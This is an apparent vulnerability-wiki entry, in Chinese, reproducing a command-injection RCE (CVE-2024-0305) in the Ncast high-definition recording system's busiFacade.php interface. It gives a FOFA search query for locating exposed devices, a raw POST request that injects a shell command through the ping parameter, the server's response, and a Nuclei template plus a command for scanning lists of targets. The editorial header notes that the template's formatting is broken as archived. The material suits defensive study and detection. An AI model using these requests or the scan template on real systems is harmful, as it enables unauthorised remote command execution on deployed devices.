



# [漏洞复现]CVE-2024-0305

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Ncast盈可视高清智能录播系统
- 文献类型：命令执行PoC与检测模板
- 版本、权限及部署边界：busiFacade SysManager ping，未给具体型号版本/登录状态
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 原请求和Nuclei缺头/body空行，Host及randstr花括号被反斜杠转义；现格式不可用
2. 响应有hello但固定词/单回显应排除请求反射，模板verifiedtrue不等于审计验证；ping可能持续子进程需标副作用
3. 影响仅产品名、修复仅最新无版本，缺CVE/厂商原始来源；题名加产品提高检索
4. 应归录播设备并与同接口其他文关联，不靠CVE标题机械合并

### 操作风险

响应有hello但固定词/单回显应排除请求反射，模板verifiedtrue不等于审计验证；ping可能持续子进程需标副作用

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/R9TraV__chGJVtf4Zme44Q>
- 原文参考链接（未重新核验）：<http://ksria.com/simpread/>
- 原文参考链接（未重新核验）：<https://github.com/MrWQ/vulnerability-paper>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/R9TraV__chGJVtf4Zme44Q)

免责申明：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**

01

—

漏洞名称

Ncast 盈可视高清智能录播系统 busiFacade RCE 漏洞

02

—  

漏洞影响

Ncast 盈可视



03

—  

漏洞描述

Ncast 盈可视高清智能录播系统是一套新进的音视频录制和播放系统，旨在提供高质量，高清定制的录播功能。该系统 / classes/common/busiFacade.php 接口存在 RCE 漏洞，攻击者可以构造恶意命令远控服务器。

04

—  

FOFA 搜索语句

  

```
app="Ncast-产品" && title=="高清智能录播系统"

```



05

—  

漏洞复现

向靶场发送如下数据包，执行 echo hello 命令

```
POST /classes/common/busiFacade.php HTTP/1.1
Host: 192.168.40.130:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Connection: close
Content-Length: 154
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
%7B%22name%22:%22ping%22,%22serviceName%22:%22SysManager%22,%22userTransaction%22:false,%22param%22:%5B%22ping%20127.0.0.1%20%7C%20echo%20hello%22%5D%7D

```

响应内容如下，其中包含了 hello 关键词

```
HTTP/1.1 200 OK
Connection: close
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
Date: Fri, 12 Jan 2024 05:41:32 GMT
Server: nginx/1.9.5
X-Powered-By: PHP/5.6.14
$#str#$hello

```

漏洞复现成功

06

—  

nuclei poc

poc 文件内容如下，在本地新建 CVE-2024-0305.yaml 文件，将内容粘贴进去即可

```
id: CVE-2024-0305
info:
  name: Ncast盈可视高清智能录播系统busiFacade RCE漏洞
  author: fgz
  severity: critical
  description: Ncast盈可视高清智能录播系统是一套新进的音视频录制和播放系统，旨在提供高质量，高清定制的录播功能。该系统/classes/common/busiFacade.php接口存在RCE漏洞，攻击者可以构造恶意命令远控服务器。
  metadata:
    max-request: 1
    fofa-query: app="Ncast-产品" && title=="高清智能录播系统"
    verified: true
requests:
  - raw:
      - |+
        POST /classes/common/busiFacade.php HTTP/1.1
        Host: \{\{Hostname\}\}
        Accept-Encoding: gzip, deflate
        Content-Type: application/x-www-form-urlencoded; charset=UTF-8
        X-Requested-With: XMLHttpRequest
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept: */*
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
        %7B%22name%22:%22ping%22,%22serviceName%22:%22SysManager%22,%22userTransaction%22:false,%22param%22:%5B%22ping%20127.0.0.1%20%7C%20echo%20\{\{randstr\}\}%22%5D%7D
    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && contains(body, '\{\{randstr\}\}')"

```

运行 POC

```
nuclei.exe -l data/Ncast.txt -t mypoc/其他/CVE-2024-0305.yaml

```



07

—  

修复建议

升级到最新版本或者缩减互联网攻击面。

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
